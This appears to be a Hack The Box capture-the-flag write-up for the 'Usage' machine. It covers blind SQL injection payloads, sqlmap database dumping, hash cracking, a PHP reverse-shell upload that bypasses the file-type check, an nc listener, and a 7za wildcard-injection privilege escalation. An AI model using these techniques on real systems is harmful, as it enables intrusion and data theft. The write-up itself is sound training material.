




# Usage machine from [Hack The Box](https://www.hackthebox.com/)

Target IP: 10.10.11.18
## Enumeration and reconnaissance

Using nmap we launch a SYN scan on every port (65535) looking for services and export the results to the file named `open_ports`
``` bash
nmap -p- -sS -n -Pn -vvv --min-rate 3000 -oG open_ports 10.10.11.18
```
The target machine only has ports 22 (SSH) and 80 (HTTP) open.

## Gaining access to target machine

Before accessing the http service we should add the domain to `/etc/hosts` for the browser to know which IP should use because it's being redirecting to the domain 'usage.htb'
``` bash
echo "10.10.11.18   usage.htb" >> /etc/hosts
```

The application in `http://10.10.11.18` is very simple, it has a button to recover the password that redirect us to `usage.htb/forget-password`. There we have a box to insert our email (I previously registered using test@test.com) and it's vulnerable to SQL Injections, as you can verify with simple payloads like
``` bash
# Payloads to verify the SQLi vulnerability
test@test.com' OR 1=1-- -
' OR 1=1-- -
```
Eventhough the application is vulnerable to SQLi we don't have any kind of response from the server, which points us to Blind SQLi, an annoying kind of vulnerability to be honest.


### Exploting SQL Injections

To exploit the blind SQLi I'm gonna use `sqlmap` setting the `--level` to 5.
``` bash
sqlmap -r db_request --dbms=mysql --level=5 --dbs --batch
```
`-dbs:` to list all the databases \
`-level <N>:` to decide how exhaustive the attack would be\
`-batch:` to avoid waiting for user input and use the default options instead

Once we discover some databases, we can use the following command to inspect the available tables
``` bash
sqlmap -r db_request -D <database> --tables --batch
```
Once we have information about tables, we can use `--columns` to inspect the structure of the table itself.
``` bash
sqlmap -r db_request -D <database> -T <table> --columns --batch
``` bash
And finally using `--dump` we query the contents of the selected table from the selected database.

``` bash
sqlmap -r db_request -D <database> -T <table> -C <column> --dump --batch
```

In the photo below we can see how sqlmap is able to identify and clasify the vulnerability and also what payload it's using



Below we can see how we were able to dump contents of the desired table that we were able to know thanks to the blind sqli discovery conducted by sqlmap. (Kudos to the developers of such a wonderful tool!)

Database: *usage_blog*\
Table: *admin_users*



Since the password seems to be hashed, we use John the ripper to crack it (copy the hash to a file)
```
john admin_password_hash
# password: whatever1
```

### Logging as admin in the web application

Using the obtained password we are able to log in as admin to the web page. 

Veri easily we can spot that the file upload feature from the administrator panel is vulnerable. And to exploit we must intercept the upload request (using Burpsuite or another proxy) and use a file type that seems like an image, in my case I'm uploaded a file named `reverse-shell.php.png`. Then from the proxy we can remove the `.png` extension and the file would be uploaded succesfully.

Below is the content of that file



Of course before uploading the file -which is going to trigger the target machine to stablish a reverse shell to our host- we must start listening on the same port

```
nc -nlvp 443
```
## Obtaining user flag
Once we stablish a connection to the victim machine, we can see the current user is `dash`. 

We got our first flag
`cat /home/dash/user.txt`


NOTE: The reverse shell works fine, but for a limited period of time so I just opened another bash process and, from the victim machine, stablished another connection to my host to avoid it closing.

## Getting root flag

### Pivoting from user1 (dash) to user2 (xander)
The `dash` user doesn't have special access, so first we can proceed with a lateral movement into another user: `xander`. Which is really easy because inspecting the file `/home/dash/.monitrc` we found out what seems to be a password. So let's try it for `xander`



Now the user `xander` has sudo access to use the binary `/usr/bin/user_management`
``` bash
sudo -l
#(ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

After inspecting that binary with `strings` and playing a while running it we can confirm that option 1 of the executable (it has a menu with 3 options) performs a compresions of `/var/www/html`.

More splicity the command is
`/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *`

**Pay attention to the wildcard!**

So, we can run the `7za` tool with sudo and what is even more important is the command uses the `*` wildcard. Looking into `7za --help` we can see that there is a way of listing the contents of the files to compress: using `@file` will result on 'file' being compressed while it's contents gets printed. That's very useful!!

We could run something like `7za a test-folder @file-name` and that should send 'file-name' to the archive called 'test-folder' while **printing it's content**. So if we manage to make file-name --points to--> root.txt and run the command as sudo we would be able to read it's content.

Summarazing: 
- we can run `/usr/bin/user_management` as sudo
- using option 1 when running `/usr/bin/user_management` runs `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *` from `/var/www/html`
- prepending "@" to file's name, when using `7za` print's it's content on stdout.

All in place, we just need a way to make that "*" somehow expands to "@root.txt" for the actual 7za command ends up being `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- @root.txt [...]`
To do so we can create a file called '@root.txt' and another one called `root.txt` (we need the 2nd one so the content get's displayed) which would be a symlink pointing to the actual `/root/root.txt`

``` bash
# from /var/www/html
# create the bait file
touch "@root.txt"
# symlink to the original root.txt
ln -s -r /root/root.txt root.txt
```

Once everything is in place, let's hack!
``` bash
sudo /usr/bin/user_management
# input option 1 when prompted
# the content of root.txt should be display as plain text!
```


## Summary

We were able to compromise this machine because of the following vulnerabilities:

* Blind SQL Injection on an 'email' field which allows to enumerate the databases
* The password in the database wasn't hard to crack
* The admin panel was vulnerable to Remote File Inclusion which allows us to stablish a reverse-shell
* A password present in plaint text in file named `.monitrc` which allows us to pivot to another user
* Sudo permissions to execute a vulnerable script because it's using wildcards, which allows us to read the content of ANY file as sudo
